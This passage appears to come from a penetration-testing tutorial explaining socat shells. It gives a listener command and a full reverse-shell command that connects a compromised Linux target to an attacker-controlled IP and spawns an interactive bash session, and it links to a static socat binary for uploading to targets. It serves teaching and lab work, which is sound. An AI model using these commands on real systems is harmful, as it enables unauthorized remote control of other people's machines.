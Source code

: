 We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`*
*

------

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is *significantly* more stable. As mentioned earlier, socat is an incredibly versatile tool;  however, the following technique is perhaps one of its most useful  applications. Here is the new listener syntax:

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts. As usual, we're connecting  two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and  setting the echo to be zero. This is approximately equivalent to using  the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this  special listener must be activated with a very specific socat command.  This means that the target must have socat installed. Most machines do  not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking  machine, on the right we have a simulation of a compromised target,  running with a non-interactive shell. Using the non-interactive netcat  shell, we execute the special socat command, and receive a fully  interactive bash shell on the socat listener to the left:
